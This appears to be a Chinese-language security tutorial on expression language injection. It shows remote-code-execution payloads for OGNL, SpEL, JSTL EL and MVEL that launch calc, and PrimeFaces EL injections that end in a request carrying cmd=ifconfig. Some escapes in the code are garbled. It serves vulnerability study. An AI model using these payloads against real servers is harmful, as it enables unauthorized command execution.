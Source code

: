 # 表达式注入简介

> 2013年4月15日Expression Language Injection词条在OWASP上被创建，而这个词的最早出现可以追溯到2012年12月的《Remote-Code-with-Expression-Language-Injection》一文，在这个paper中第一次提到了这个名词。

> 而这个时期，只不过还只是把它叫做远程代码执行漏洞、远程命令执行漏洞或者上下文操控漏洞。像Struts2系列的s2-003、s2-009、s2-016等，这种由OGNL表达式引起的命令执行漏洞。

> 随着Expression Language越来越广泛的使用，它的受攻击面也随着展开，所以我们觉得有必要开始针对这种类型的漏洞进行一些研究，Expression Language Injection在将来甚至有可能成为SQL注入一样的存在。

| Name | Injection |
|  ----  | ----  |
| Struts2  | OGNL |
| Spring  | SPEL |
| JSP  | JSTL_EL |
| Elasticsearch  | MVEL |

# 表达式注入实例

## Struts2 ——OGNL

### 基本介绍

Strust2漏洞可谓是从一开始就高危到现在，一开始归类为命令执行，现在规范化为表达式注入，其表达式格式为

```
  @[类名]@[方法名|值]
```

举例来说

```java
@java.lang.String@format('foo %s', 'test')
```

### 基本用法

```java
ActionContext AC = ActionContext.getContext();
Map Parameters = (Map)AC.getParameters();
String expression = "${(new java.lang.ProcessBuilder('calc')).start()}";
AC.getValueStack().findValue(expression));
```

相关漏洞有`s2-015`、`s2-016`，`s2-017`等等



## Spring——SPEL

SPEl为Spring框架的EL表达式，只在Spring框架中可用

### 基本用法

```java
java
String expression = "T(java.lang.Runtime).getRuntime().exec(/"calc/")";
String result = parser.parseExpression(expression).getValue().toString();
```

## JSP——JSTL_EL

JSTL_EL为JSP自带的表达式，适用于所有的Java Web

### 基本用法

```jsp
jsp  
<spring:message text=
"${/"/".getClass().forName(/"java.lang.Runtime/").getMethod(/"getRuntime/",null).invoke(null,null).exec(/"calc/",null).toString()}">
</spring:message> 
```

### 相关漏洞

> ```
> CVE-2011-2730
> ```

## Elasticsearch——MVEL

实例有CVE-2014-3120等，MVEL同OGNL和SPEL一样，具有通过表达式执行Java代码的强大功能

### 基本用法

```java
java import org.mvel.MVEL;  
public class MVELTest {  
        public static void main(String[] args) {  
              String expression = "new java.lang.ProcessBuilder(/"calc/").start();";  
               Boolean result = (Boolean) MVEL.eval(expression, vars);  
         }  
  } 
```

## Primefaces框架

### 验证代码

```java
${facesContext.getExternalContext().getResponse().getWriter().println("~~~elinject~~~")}${facesContext.getExternalContext().getResponse().getWriter().flush()}${facesContext.getExternalContext().getResponse().getWriter().close()}
```

### Web路径

```java
${facesContext.getExternalContext().getResponse().getWriter().println(request.getSession().getServletContext().getRealPath(/"//"))}${facesContext.getExternalContext().getResponse().getWriter().flush()}${facesContext.getExternalContext().getResponse().getWriter().close()}
```



### 加密后的Payload

```
uMKljPgnOTVxmOB%2BH6%2FQEPW9ghJMGL3PRdkfmbiiPkV9XxzneUPyMM8BUxgtfxF3wYMlt0MXkqO5%2BOpbBXfBSCSkb2z5x8Cb2P%2FDS2BUn7odA0GflWHV%2B9J8uLGYIqPK9HY85O%2BJw0u5X9urorJfQZKJihsLCV%2BnqyXHs8i6uh4iIboLA2TZUiTbjc3SfybUTvPCjRdyT6rCe6MPQGqHYkBiX3K7fGPuwJ2XNONXI9N2Sup5MWcUUo87FbX3jESvOq2Bs3sDKU4bW3aCGbhUcA2ZEgSxkLcW6VKDnXV5hxvz6J4a4E6P8HCy9v8%2BdrRzmtKbwczXk%2B9n8Lm2KYS%2Fk2TJKpeKjPg0t%2BAiKzTiqak%3D
```

### 调用Payload

```
http://xx.xx.xx.xx/javax.faces.resource/?pfdrt=sc&;ln=primefaces&;pfdrid=1acBqv16SJhfc30NLxL/NinZaDI%2BoHqk1xDbSI8qOl4%2BoXsKFyqJq3gv2IBc1S89q6G1POSSKDNlzHE/%2BnsMuZgTDALpyOstkBkFVJNc2U/B%2BoceOqnpF5YZoWtF0W7qGxsImsumut7GQoKKMQcbwwL4coE07x6Mn09hfy94tuiiy6S8S1vr8kPPYzrUC5AveiE9ls7dLDiaQripnC0Z71fB1xCjkxw8wjZt3om1PT9Wq8YAqkHuBIo/soFBvM1YDnJosELhjmfoJdAGBRfullXUfVw5xEg9ykFpLaKugkbDIBgXtv58Xu4BrT0d5MAQ8BOVwjzSodkdllYCAeUklCDWRfFtZDORdcAzXVxTRkEn%2Bnx7qAFh8NwK/sDsXz6U1Q2Q/ny1UaEMFM9qrgVmfX181HXWc4TuETxLqUohfreYLJLW%2BAxcxzciqqoKj%2Bht/KJ%2B%2BGfzuNoSs0E9i9N/AL5PALrdTRg%2BuweD3CMLZgLDITkMx4z7dmP2daw2B98nrKOLHtG6nYDcDmSfy8d8IKMZJvuq/WT7JLm0PJ3UqDyvzHHjrPCDpTFhMUmftFFvi4APBpT41slHYoRKDbJMvU/upvKyAsy5xQKJ5s6x%2B4F%2By9p8Icp1TQfMcqIPwMQkvsOs8i61m6i96dpmxpfZPWprcigaWMhJG8/iYRg7ZygegrmSbovLy5Tr3Mc9GODgdTx7v396NJ75yQyU4ETmYEhNxWTIoncK7MbyBcIWR/h1GjhCwwpquKRWLb3hal8DNJxubaKnxGa9mRNaQAZRr0s%2B3eo1jeino5O8CSQzla7ACpJc3867AAGxnWrnE/weJ20W3QKj6nIz/EAyx87aVIKs%2BQH3O4IGx%2BuiZ38TvMeg6jZpkZGiRNEUEuAoV6CWlMA%2BxM6BPvbPyWsqmdI8l%2ByFBhsoSpNhel2%2B0gxS5wWqZbRyi0rjPlOzUe8Xir9mlpuBZzrUIcbaYaE8PHQno1OZ/zaHx/GzAJakSRQ5YbKQ/W/OzkokDG3M79KSCtx2jN92PtISucY%3D&;cmd=ifconfig
```



